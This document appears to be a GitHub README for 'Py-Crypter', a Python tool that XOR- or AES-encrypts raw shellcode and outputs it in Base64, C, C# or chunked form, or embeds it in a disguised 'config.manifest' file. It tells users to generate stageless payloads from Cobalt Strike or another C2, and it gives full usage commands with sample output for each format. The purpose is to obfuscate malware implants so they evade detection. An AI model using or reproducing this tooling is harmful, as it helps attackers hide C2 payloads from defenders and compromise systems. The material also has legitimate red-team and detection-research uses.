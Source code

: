 # Python Shellcode Encrypter

Python3 shellcode encryptor and obfuscator script.<br />
Uses XOR or AES encryption and outputs shellcode in different encoded formats.<br />
**_Output encrypted shellcode will be copied to clipboard in all cases except for the raw file output!_**<br />
<br />
**Runs on Windows, MacOS, and Linux!**<br />

Shellcode output formats:
- Base64 encoded (`dGhpcyBpcyB0aGUgb3V0cHV0IGZvcm1hdA==`)
- C hex format (`\x00\x01...`)
- CSharp hex format (`0x00,0x01...`)
- Chunked shellcode - Output any of the above encrypted formats and split shellcode into even "chunks" on 4 to 5 newlines
- Manifest file - Output encoded shellcode into an embedded `config.manifest` file
- Raw file output - `shellcode-raw-encrypted.bin` file in current directory


**REQUIREMENTS:**<br />
ALL Operating Systems:
```
pip3 install pyperclip pycrypto pycryptodome
```
Additional Linux OS requirements:
```
sudo apt-get install xclip
```

**GETTING STARTED:**<br />
First, generate raw shellcode from Cobalt Strike or any C2 as your input.
```
# Cobalt Strike shellcode generation
Cobalt Strike --> Payloads --> Windows Stageless Payload 
--> Select Listener & Output = Raw
```
Use raw **shellcode.bin** file as input to the **Py-Crypter.py** script, or use any other file type you want to encode+encrypt!

--------------------------------------
## **USAGE:**
```
python3 Py-Crypter.py -h
usage: Py-Crypter.py [-h] [-file FILE] [-algo {xor,aes}] [-key KEY] [-output {b64,hex,csharp,raw}] [OPTIONAL: -chunked]

Shellcode XOR/AES encrypter

optional arguments:
  -h, --help            show this help message and exit
  -file FILE, -f FILE   Raw binary shellcode file from C2
  -algo {xor,aes}, -a {xor,aes}
                        The encryption algorithm
  -key KEY, -k KEY      Create a random encryption key or use key provide by input (Use "random" as argument
                        or provide your own key)
  -output {b64,hex,csharp,manifest,raw}, -o {b64,hex,csharp,manifest,raw}
                        Type of shellcode to output (args: base64, hex, csharp, manifest, raw)
  -chunked, -c          Split shellcode into 4 even chunks (separated by new lines)
```

**BASE64 encoded, encrypted format output**<br />
Format = "*IyBQeXRob24gU2hlbGxjb2RlIEVuY3J5...*"
```
python3 Py-Crypter.py -f beacon64.bin -a xor -output b64 -k random
[*] Shellcode input length: 334159
[+] Encrypted BASE64 shellcode has been copied to Clipboard!
[+] XOR KEY: 07BR0DA8K7R7E11TW6GX
```

**C hex format, AES encrypted output**<br />
Format = "*\x12\x34\x56\x78\x9a...*"
```
python3 Py-Crypter.py -f beacon64.bin -a aes -output hex -k MyEncryptionKey
[*] Shellcode input length: 334159
[+] Encrypted HEX shellcode has been copied to Clipboard!
[+] AES KEY: mykeymykeyasdfgh
[+] AESkey[] = { 0x6d,0x79,0x6b,0x65,0x79,0x6d,0x79,0x6b,0x65,0x79,0x61,0x73,0x64,0x66,0x67,0x68 };
[+] IV[] = { 0x5c,0xf3,0x68,0x8e,0x2d,0xd5,0x7d,0x11,0xef,0x17,0xcf,0xf,0x5a,0xf4,0xf,0xef };
```

**CSharp hex format, XOR encrypted output**<br />
Format = "*0xc9,0x1f,0xb3,0xac,0xc0,0xac,0x94,0x34...*"
```
python3 Py-Crypter.py -f beacon64.bin -a xor -k random -o csharp
[*] Shellcode input length: 334159
[+] Encrypted CSharp shellcode has been copied to Clipboard!
[+] XOR KEY: 5W0H0DT4U1FS0CKP
```

**Chunked shellcode using one of the above output formats**<br />
Format = <br />
*txq03L7Q90xXMhAaBmUVZx0aBuorcLweN3raGV9...*<br />
*ahfHFQ4ZSpe+x75LUjdwy/hDKx8zgRvMfV9ywBI...*<br />
*aJoy7R9ywBITcU/oUQ3cPhkPzHVbf0qCdrNKsH9...*<br />
*NktSNzhOcLrBVjNRSwaPdr0k1cjt9dgqZl1z6+3...*<br />
```
python3 Py-Crypter.py -f beacon64.bin -a xor -k random -o b64 -chunked
[*] Shellcode input length: 334159
[+] Chunking shellcode into 4-5 parts with average length of 92
[+] Encrypted BASE64 shellcode has been copied to Clipboard!
[+] XOR Encryption KEY: KR78N87LW2QKG5G6
```

**Manifest file output - Creates 'config'manifest' file with embedded shellcode**
```
python3 Py-Crypter.py -f beacon64.bin -a xor -k random -o manifest
[*] Shellcode input length: 276
[+] Manifest shellcode file contents copied to Clipboard!
[+] Successfully created manifest file: 'config.manifest'
[+] XOR Encryption KEY: Z69FT41P4253SJKC
```

**RAW binary, XOR encrypted output (UTF-8 encoding)**
```
python3 Py-Crypter.py -f beacon64.bin -a xor -o raw -k random
[*] Shellcode input length: 334159
[+] Saving encrypted shellcode to output binary file
[+] Output file name: shellcode-raw-encrypted.bin
[+] XOR KEY: FL4PKBJ1AU30DBQT1W0Q
```
